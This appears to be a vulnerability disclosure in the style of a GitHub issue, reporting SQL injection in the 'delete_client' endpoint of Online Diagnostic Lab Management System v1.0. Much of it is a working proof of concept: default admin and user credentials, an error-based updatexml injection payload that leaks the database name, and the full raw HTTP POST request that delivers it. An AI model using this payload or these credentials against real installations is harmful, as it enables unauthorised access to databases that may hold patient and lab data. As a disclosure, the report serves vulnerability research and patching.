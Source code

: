 # Online Diagnostic Lab Management System v1.0 by oretnom23 has SQL injection

BUG_Author: YorkLee

Login account: admin/admin123 (Super Admin account)

Login account: cblake@sample.com/cblake123 (General account)

vendors: https://www.sourcecodester.com/php/15129/online-diagnostic-lab-management-system-php-free-source-code.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /odlms/classes/Users.php?f=delete_client

Vulnerability location: /odlms/classes/Users.php?f=delete_client,id

dbname=odlms_db,length=8

[+] Payload: id=1'  and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+ // Leak place ---> id

```sql
POST /odlms/classes/Users.php?f=delete_client HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Referer: http://192.168.1.88/odlms/admin/?page=appointments
Content-Length: 66
Cookie: PHPSESSID=5g4g4dffu1bkrg9jm7nr42ori2
Connection: close

id=1'  and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+
```

![image](https://user-images.githubusercontent.com/54017627/191270307-4c1b92ef-92e7-4e0f-bcf5-37c1ba0c6cf9.png)
